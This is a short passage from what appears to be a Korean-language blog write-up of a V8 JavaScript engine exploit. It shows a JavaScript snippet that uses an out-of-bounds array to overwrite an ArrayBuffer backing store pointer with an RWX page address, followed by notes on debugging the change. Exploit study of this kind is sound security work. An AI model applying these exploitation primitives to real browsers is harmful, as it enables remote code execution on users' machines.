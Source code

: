 <br><br><br>

```js
// overwrite backing store
let bs = ftoi(oob_arr[12]);
bs &= 0xffffffffn;
bs |= rwx << 32n;
oob_arr[12] = itof(bs);
bs = ftoi(oob_arr[13]);
bs &= 0xffffffff00000000n;
bs |= rwx >> 32n;
oob_arr[13] = itof(bs);
```

<br><br><br>


이 부분도 이해하기 쉽게 분석해보겠습니다. 

<br><br><br>

![1.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/v8(16).png)

<br><br><br>

바뀌기전과 후로 디버깅해보겠습니다.

<br><br><br>

![1.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/v8(13).png)
